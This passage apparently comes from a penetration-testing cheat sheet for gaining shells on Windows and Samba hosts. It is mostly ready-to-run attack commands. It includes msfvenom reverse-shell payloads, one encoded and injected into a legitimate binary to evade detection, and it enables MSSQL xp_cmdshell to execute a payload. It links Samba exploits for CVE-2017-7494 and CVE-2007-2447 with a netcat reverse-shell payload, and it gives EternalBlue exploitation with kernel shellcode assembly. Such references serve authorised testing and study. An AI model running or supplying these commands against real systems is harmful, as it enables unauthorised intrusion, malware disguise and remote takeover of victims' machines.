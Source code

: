 ### Binary payload injection(msfvenom)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXIT_FUNC=thread -f exe -e x86/shikata_ga_nai -i 9 -x VALID_BINARY -o bad_binary.exe
```
## Non web vuln
Some services may have vulnerabilities that allow you to gain shell access.

### from xp_cmdshell to shell (may see in AD env)
```bash
# If you are doing it against a host in different subnet, set up the proxy then execute with proxychians
sqsh -S IP -U DOMAIN_OR_HOST_NAME\\USER -P PASS
exec sp_configure ‘show advanced options’, 1;
reconfigure;
exec sp_configure ‘xp_cmdshell’, 1;
reconfigure;
\go
xp_cmdshell 'PAYLOAD';
\go
```

#### Samba Eternal Red
[Exploit 1](https://redteamzone.com/EternalRed/)

[Exploit 2](https://github.com/joxeankoret/CVE-2017-7494)

[Exploit 3](https://github.com/opsxcq/exploit-CVE-2017-7494)
``` bash
#check if the host is vulnerable
nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version –p445 IP 
```

#### Samba 3.0
[Exploit 1](https://github.com/amriunix/CVE-2007-2447)
[Exploit 2](https://gist.github.com/joenorton8014/19aaa00e0088738fc429cff2669b9851)
```bash 
# Create payload with
msfvenom -p cmd/unix/reverse_netcat LHOST=IP LPORT=PORT -f python
```

#### Eternal Blue
``` bash
#https://github.com/helviojunior/MS17-010
#Generate payload in exe format and use the send_and_execute.py
msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=IP LPORT=PORT -f exe -o payload.exe
python2 /opt/MS17-010/send_and_execute.py TARGET_IP payload.exe
# If this does not work, use the paylaod created by the following commands
msfvenom -p windows/x64/shell_reverse_tcp -a x64 LHOST=IP LPORT=443 -f raw -o sc_x64_payload.bin
nasm -f bin eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
```
